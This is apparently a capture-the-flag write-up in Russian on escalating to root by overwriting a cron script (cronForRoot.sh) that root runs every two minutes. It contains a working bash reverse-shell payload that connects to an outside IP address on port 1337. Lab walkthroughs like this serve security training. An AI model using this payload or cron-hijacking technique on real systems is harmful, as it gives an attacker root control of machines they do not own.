 # Cron writeup

Заходим на машину жертвы через ssh

![image.png](Cron%20writeup%201a2021737a8980658175e9aa0ec2e197/image.png)

В задании намек на cronjobs, поэтому читаем файл `/etc/crontab`

![image.png](Cron%20writeup%201a2021737a8980658175e9aa0ec2e197/image%201.png)

Видим скрипт [cronForRoot.sh](http://cronForRoot.sh), выполняющийся каждые 2 минуты. Запустим слушателя на нашем сервере, а в cronForRoot.sh подложим следующий пейлоад:

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/147.45.143.202/1337 0>&1
```

![image.png](Cron%20writeup%201a2021737a8980658175e9aa0ec2e197/image%202.png)

Получаем рут ревшелл, находим флаг

![image.png](Cron%20writeup%201a2021737a8980658175e9aa0ec2e197/image%203.png)